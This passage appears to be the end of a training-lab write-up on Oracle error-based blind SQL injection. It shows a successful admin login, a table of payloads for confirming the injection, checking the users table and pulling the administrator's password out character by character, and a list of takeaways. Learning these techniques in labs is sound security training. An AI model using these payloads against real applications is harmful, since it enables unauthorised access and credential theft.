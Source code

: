 Go to `/login` and enter:

- **Username:** `administrator`
- **Password:** `1y1vysmt4233xxxxxxxxxxx`

🔐 **Logged in successfully! Lab solved.**

## 🧾 Summary of Key Queries

| Purpose | Payload |
|--------|---------|
| Confirm SQLi | `'` |
| Check `users` table | `'||+(SELECT+''+FROM+users+WHERE+rownum=1)+||'--` |
| Confirm `administrator` exists | `'+||+(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')+||'--` |
| Find password length | `'+||+(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password)=20)+||'--` |
| Extract password char by char | `'+||+(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND SUBSTR(password,1,1)='a')+||'--` |

## 🧠 Takeaways

- Even with **no visible output**, you can infer data via **conditional errors**.
- Use `CASE WHEN ... THEN 1/0` to force errors based on conditions.
- Oracle requires special handling like `TO_CHAR(1/0)` due to strict syntax.
- Burp Intruder is your best friend for brute-forcing character-by-character.
- Always close queries safely using `--` or `/* */` to avoid parsing issues.

## 🎉 Final Notes

Great job solving this challenging lab! You've demonstrated mastery of **error-based blind SQL injection**, including:
- Enumerating database structure
- Inferring data without output
- Automating extraction with Burp Intruder

Let me know what you'd like to tackle next! 💥

